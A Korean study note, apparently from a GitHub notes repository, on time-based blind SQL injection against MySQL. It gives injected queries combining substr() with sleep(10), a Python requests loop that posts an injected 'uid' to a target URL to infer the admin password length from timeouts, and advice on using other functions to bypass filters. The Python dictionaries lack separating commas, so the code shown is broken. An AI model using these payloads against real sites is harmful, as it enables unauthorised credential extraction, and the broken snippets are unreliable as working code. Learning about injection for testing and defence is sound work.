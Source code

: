 # Time based blind sqli

### Time based blind sqli 란

time based sql injection 과

blind sql injection 하고 서로 응용하면서 사용하는 기법이다.

간단하게 blind sql injection에 사용하는 쿼리에 time based 를 연결시켜 반환값을

확인하는 것이다.

__예 db 구조__
```sql
databases -> test

tables -> member

columns -> id , pw

data -> ('admin','password'),('guest','guest')
```

예)
```sql
SELECT * FROM member WHERE id='admin' and substr(pw,1,1)='p' and sleep(10);

SELECT * FROM member WHERE id='' and pw='' or id='admin' and substr(pw,1,1)='p' and sleep(10);
```

이런식으로 다양하게 blind sqli 와 time based sqli 를 합쳐서 반환값을 웹페이지상에서

확인을할 수 가있다.
* * *

python 에서는 
requests 같은 모듈로 HTTP POST 또는 GET 방식으로
전송할때 데이터를 조금만 더 추가하면된다.

<br>

__밑의 링크를 읽어보지않거나 공격 기법을 모르면 참고해도 좋다.__

+ [time based sql injection 이란?](https://github.com/kimminwyk/Study-notes/tree/master/MYSQL/MYSQL-SQL-injection/time-based-sql-injection)

+ [blind sql injection 이란?](https://github.com/kimminwyk/Study-notes/tree/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection)

+ [자세한 blind sqli python script](https://github.com/kimminwyk/Study-notes/blob/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-python-script.md)

```sql
SELECT * FROM member WHERE id='' and pw=''
```

위의 sql 쿼리대로 time based blind sql injection 을 시도한다면

```py
body = {
    'uid':"admin' and substr(pw,1,1)='p' and sleep(10)--'"
    'upw':'a'
}
```

```py
import requests

Url = "in Url"

for length in range(1,100):
    data = {
        'uid':f"admin' and length(pw)={length} and sleep(10)--'"
        'upw':'a'
    }
    try:
        r = requests.post(Url,data = data,timeout = 2)

    except:
        print('userid admin in password length :',length)
```
이와같이 blind sqli 에 사용하는 쿼리과 time based sqli 와 사용하는 쿼리를 조합시켜 완성 시키면 된다.
* * *
그리고 sleep() 같은 함수를 굳이 사용하지않아도

time based sql injection 에서 필터링시에 우회할수있는 쿼리나 함수를 추가하면 된다.

### 마무리

blind sqli 과 time based sqli 과 합치면서

서로 필터링이 되지않는 함수들을 사용하여 우회를 하고

만들어진 query 로 전송하여 스크립트를 만들면 된다.
